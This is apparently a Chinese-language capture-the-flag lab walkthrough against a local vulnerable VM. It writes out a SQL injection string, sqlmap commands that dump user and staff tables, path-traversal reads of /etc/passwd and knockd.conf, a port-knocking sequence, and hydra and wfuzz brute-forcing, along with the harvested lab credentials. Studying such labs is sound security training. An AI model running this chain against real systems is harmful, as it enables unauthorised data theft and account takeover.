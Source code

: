 ![image-20220106210459771](https://tva1.sinaimg.cn/large/008i3skNly1gy497s2xnhj31c40u0juu.jpg)

### 1.主机发现

> ip:192.168.92.193

### 2.端口扫描

>![image-20211020191230451](https://tva1.sinaimg.cn/large/008i3skNly1gvlzmoegoij60p809y3zs02.jpg)
>
>80端口是打开的

### 3.访问http://192.168.92.193/

> 目录扫描
>
> ```
> nikto -host 192.168.92.193
> 
> ```
>
> 

![image-20211020191313150](https://tva1.sinaimg.cn/large/008i3skNgy1gvlznd3kn1j60pw0fzab502.jpg)

### 4.可以SQL注入

> 判断是否有注入
>
> `' or 1=1 --+`
>
> 
>
> 使用sqlmap注入
>
> ```
> 1.查看是否有注入
> sqlmap -u http://192.168.92.193/results.php --data 'search=1'  
> 
> 2.查看数据库
> sqlmap -u http://192.168.92.193/results.php --data 'search=1'  --dbs
> 
> 3.查看数据库的数据表
>  sqlmap -u http://192.168.92.193/results.php --data 'search=1'  -D users --tables
> 
> 4.打开表
> sqlmap -u http://192.168.92.193/results.php --data 'search=1'  -D users -T  UserDetails --dump
> 
> 
> 
> ```

#### 数据库

![image-20211020191704860](https://tva1.sinaimg.cn/large/008i3skNgy1gvlzrdf8trj609q04k0ss02.jpg)

#### users数据库 

![image-20211020191717942](https://tva1.sinaimg.cn/large/008i3skNgy1gvlzrlijt3j606o05cmx302.jpg)

<img src="https://tva1.sinaimg.cn/large/008i3skNgy1gvlzrumtz3j60vq0ksq7802.jpg" alt="image-20211020191732617"  />

> +----+------------+---------------+---------------------+-----------+-----------+
> | id | lastname   | password      | reg_date            | username  | firstname |
> +----+------------+---------------+---------------------+-----------+-----------+
> | 1  | Moe          | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
> | 2  | Dooley      | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
> | 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
> | 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
> | 5  | Cat           | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
> | 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
> | 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
> | 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
> | 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
> | 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
> | 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
> | 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
> | 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
> | 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
> | 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
> | 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
> | 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
> +----+------------+---------------+---------------------+-----------+-----------+

### Staff数据库

`sqlmap -u http://192.168.92.193/results.php --data 'search=1'  -D Staff -T Users --dump`

![image-20211020201108174](https://tva1.sinaimg.cn/large/008i3skNly1gvm1bm6s36j60so04gdg902.jpg)

> 密码
>
> 856f5de590ef37314e7c3bdf6f8a66dc
>
> 明文
>
> transorbital1



### 登录用户

![image-20211020210925948](https://tva1.sinaimg.cn/large/008i3skNgy1gvm309tv7ij60gh0b43z502.jpg)

> FUZZ  查找参数
>
> ` wfuzz -b 'PHPSESSID=p4d8u6edvm3mts5m88qsui02qj' -w /usr/share/wfuzz/wordlist/general/common.txt  http://192.168.92.193/manage.php?FUZZ=index.php`
>
> 
>
> 没有发现响应不同的 可能是后面参数不对
>
> 访问一个 Linux一定存在的文件 ../../../../../etc/passwd
>
> `wfuzz -b 'PHPSESSID=p4d8u6edvm3mts5m88qsui02qj' -w /usr/share/wfuzz/wordlist/general/common.txt --hw 100   http://192.168.92.193/manage.php?FUZZ=../../../../../etc/passwd`
>
> ![image-20211020211536878](https://tva1.sinaimg.cn/large/008i3skNgy1gvm36pobilj60t006kmxj02.jpg)



### 收集隐私

> http://192.168.92.193/manage.php?file=../../../../etc/passwd
>
> ![image-20211020212527307](https://tva1.sinaimg.cn/large/008i3skNly1gvm3gy9ldtj60oo0bdwio02.jpg)
>
> 发现和数据库中的内容相似

## 使用hydra 爆破ssh

> ```
>  hydra -L name_dis -P paswd_dis 192.168.92.193 ssh
>  
>   hydra -L [用户名字典] -P [密码字典] 192.168.92.193 ssh
>  
> ```
>
> ### 无法爆破  22端口为过滤状态
>
> ![image-20211020213532942](https://tva1.sinaimg.cn/large/008i3skNgy1gvm3rgq3j7j60tg0ak0u502.jpg)
>
> > 22端口可能配置了knock d
> >
> > Knockd 配置文件在  	/etc/knockd.conf
>
> 
>
> #### 用文件包含查看 
>
> `http://192.168.92.193/manage.php?file=../../../../etc/knockd.conf`
>
> ```
> File does not exist
> [options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn
> ```
>
>  
>
> ### 用nmap 依次访问 7469,8475,9842
>
> ```
>  nmap -p 7469 192.168.17.193
>  nmap -p 8475 192.168.17.193
>  nmap -p 9842 192.168.17.193
>  
>  
>  
> ```
>
> #### 或者用nc
>
> ```
> for x in 7469 8475 9842 22 ;do nc 192.168.92.193 $x;done
> ```
>
> 
>
> ##### 成功
>
> ![image-20211020214317128](https://tva1.sinaimg.cn/large/008i3skNgy1gvm3zij4rsj614c0dwdia02.jpg)
>
> #### 再次使用hydra继续爆破ssh
>
> ![image-20211020215120403](https://tva1.sinaimg.cn/large/008i3skNly1gvm47vn8cxj60gg02dt9c02.jpg)
>
> > [22][ssh] host: 192.168.92.193   login: chandlerb   password: UrAG0D!
> > [22][ssh] host: 192.168.92.193   login: joeyt   password: Passw0rd
> > [22][ssh] host: 192.168.92.193   login: janitor   password: Ilovepeepee
>
>   
>
> ### 收集信息
>
> ```
> ls -a
> sudo -l //查看root权限
> history //查看历史命令
> ```
>
> >发现janitor 有敏感文件
>
> ![image-20211020220121024](https://tva1.sinaimg.cn/large/008i3skNly1gvm4iawghpj30wa06o3yw.jpg)
>
> ``` 
> 六个密码
> BamBam01
> Passw0rd
> smellycats
> P0Lic#10-4
> B4-Tru3-001
> 4uGU5T-NiGHts
> 
> ```
>
> #####  用hydra发现其他用户
>
> `hydra -L name_dis -P paswd_dis_2 192.168.92.193 ssh`
>
> ![image-20211020220454499](https://tva1.sinaimg.cn/large/008i3skNgy1gvm4m0ds9jj60tc026t8x02.jpg)
>
> 登录fredf 
>
> 发现用root 运行文件
>
> ![image-20211020220716510](https://tva1.sinaimg.cn/large/008i3skNly1gvm4ogt1m0j60k201wt8s02.jpg)















### FUZZ 爆破网站密码

```
使用fuzz爆破密码

 wfuzz  -z file,name_dis -z file,paswd_dis -d "username=FUZZ&password=FUZ2Z"   http://192.168.92.193/manage.php

//wufzz -z file,[字典file] -z file,[字典file] -d"[post请求内容]" http://URL****	


```

 

![image-20211020200115743](https://tva1.sinaimg.cn/large/008i3skNly1gvm11cqognj60zk0hidja02.jpg)















